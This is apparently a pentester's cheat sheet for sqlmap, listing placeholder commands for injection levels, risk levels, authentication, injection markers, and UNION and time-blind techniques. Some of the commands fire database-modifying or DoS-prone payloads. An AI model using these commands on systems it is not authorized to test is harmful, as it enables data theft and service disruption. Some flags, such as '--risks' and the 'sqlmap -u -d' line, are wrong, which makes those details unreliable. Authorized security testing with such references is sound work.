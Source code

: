 # Injection

Search Tag(s): #sqlmap #sql-injection #webapp

## Payload Injection Test Levels

### Levels

- Level 1 (by default) targets only basic GET and POST request parameters. Even if the flag is not specified it'll always use `--level=1` payloads to inject the URL. The amount of HTTP requests will always be less than 100.

```
$ sqlmap -u "<URL>" --level=1 -p <parameter>
```

- Level 2 will target HTTP cookie header. The HTTP requests will be somewhere between 100 - 200.

```
$ sqlmap -u "<URL>" --level=2 -p <parameter>

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --param-exclude="COOKIE"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." --skip="cookies"

$ sqlmap -u "<URL>" --level=2 --cookie="COOKIE=..." -p <parameter>
```

- Level 3 will will two additional HTTP headers which are **User-Agent** and **Referer** with additional payloads to inject. The **inline query** technique is reached to this level. The HTTP requests will be somewhere between 200 - 500.

`$ sqlmap -u "<URL>" --level=3`

- Level 4 contains more payloads for certain type of techniques and no additional HTTP header type to inject. The HTTP requests will be somewhere between 500 - 1000.

`$ sqlmap -u "<URL>" --level=4`

- Level 5 will inject **HTTP Host** with additional payloads contains on numerous techniques. The amount of HTTP requests will be more than 1000.

`$ sqlmap -u "<URL>" --level=5`

### Risks

- Risks 1 (by default) contains payloads that are deemed safe to test on all levels. Even if the flag is not specified it'll always use `--risks=1` payloads to inject the URL. 

`$ sqlmap -u "<URL>" --risks=1`

- Risk 2 contains payloads that might cause denial of service (DoS) which is usually for smaller sites. However, sqlmap has mechanisms to attempt and prevent it from happening.

`$ sqlmap -u "<URL>" --risks=2`

- From this level and beyond has a huge risk by modifying the database to perform certain tasks.

`$ sqlmap -u "<URL>" --risks=3`

## Authentication Methods

`$ sqlmap -u "<URL>" --cookie="<key_1>=<value_1>;<key_n>=<value_n>"`

`$ sqlmap -u "<URL>" --headers="Authorization=<value>"`

`$ sqlmap -u "<URL>" --auth-type=<Basic | Digest | Bearer | ...> --auth-cred=<username>:<password>`

`$ sqlmap -u "<URL>" --auth-file=/path/to/file.pem`

### DBMS Authentication

`$ sqlmap -u -d <scheme>://<username>:<password>@<IP>:<PORT>/<database_name> --dbms-cred=<username>:<password>`

## Injection Markers

- Specify the parameter

`$ sqlmap -u "<URL>" -p <parameter>"`

- Skip parameters if they contain negative heuristic results. Proceed further injection on positive heuristics. This can be used to scan multiple URLs.

```
$ sqlmap -u "<URL>" --smart

$ sqlmap -m urls.txt --smart --batch
```

- Specify a HTTP header to inject

`$ sqlmap -u "<URL>" --headers="<headers>"`

- Specify injection markers inside parameter values (`%INJECT_HERE%` or `*`).

```
$ sqlmap -u "http[s]://<IP>/?<parameter>=%INJECT_HERE%"

$ sqlmap -u "http[s]://<IP>/?<parameter>=*"

$ sqlmap -u "http[s]://<IP>/parameter*/"
```

- Setting boundaries of prefix and suffix to customize the injection.

`$ sqlmap -u "<URL>" --prefix="'" --suffix="--"`

## SQL Injection Techniques

### UNION-Based Query 

`$ sqlmap -u "<URL>" --technique=U --union-cols=<number_of_columns>`

`$ sqlmap -u "<URL>" --technique=U --union-char="A1B2"`

`$ sqlmap -u "<URL>" --technique=U --union-from="<table_name>"`

### Time-Blind Query

- This is also used for blind SQL Injection method

`$ sqlmap -u "<URL>" --technique=T --time-sec=<seconds>`

## Filter Payloads

`$ sqlmap -u "<URL>" --test-filter="<payload_title>"`

`$ sqlmap -u "<URL>" --test-skip="BENCHMARK"`